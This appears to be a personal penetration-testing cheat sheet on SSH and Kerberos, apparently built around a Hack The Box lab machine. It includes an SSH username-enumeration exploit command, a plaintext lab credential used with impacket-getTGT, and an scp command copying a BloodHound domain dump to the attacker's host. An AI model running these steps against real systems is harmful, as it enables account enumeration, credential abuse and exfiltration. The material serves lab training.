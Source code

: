 ### Version < 7.7
```
python sshUsernameEnumExploit.py <IP> -w <wordlist>
```

### Login via kerberos
```
/etc/hosts(顺序必须一摸一样):
10.10.11.60     frizzdc.frizz.htb frizz.htb


/etc/krb5.conf:
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }

kinit f.frizzle@FRIZZ.HTB; klist or impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/M.SchoolBus:'!suBcig@MehTed!R' export KRB5CCNAME=f.frizzle.ccache klist

ssh f.frizzle@frizz.htb -K 
```
Solving Permission denied (gssapi-with-mic,keyboard-interactive).
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Change ssh port from 22 to 80
```
sudo vim /etc/ssh/sshd_config
Change the port from 22 to 80:
sudo service ssh restart
```
### SCP file transfer
```
scp -P 80 20250425032703_BloodHound.zip kali@10.10.14.3:/home/kali/Desktop/20250425032703_BloodHound.zip
```
### Privare Key
Check
```
openssl rsa -in pkcs11.txt -check
```
### SSH hostkey 
```
ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
```
ssh hostkey indicates the type of private key it accepts

### Generate pub/pri key pair
```
ssh-keygen -t dsa | ecdsa | ecdsa-sk | ed25519 | ed25519-sk | rsa -f /tmp/james_rsa

It will generate /tmp/james_rsa and /tmp/james_rsa.pub
```
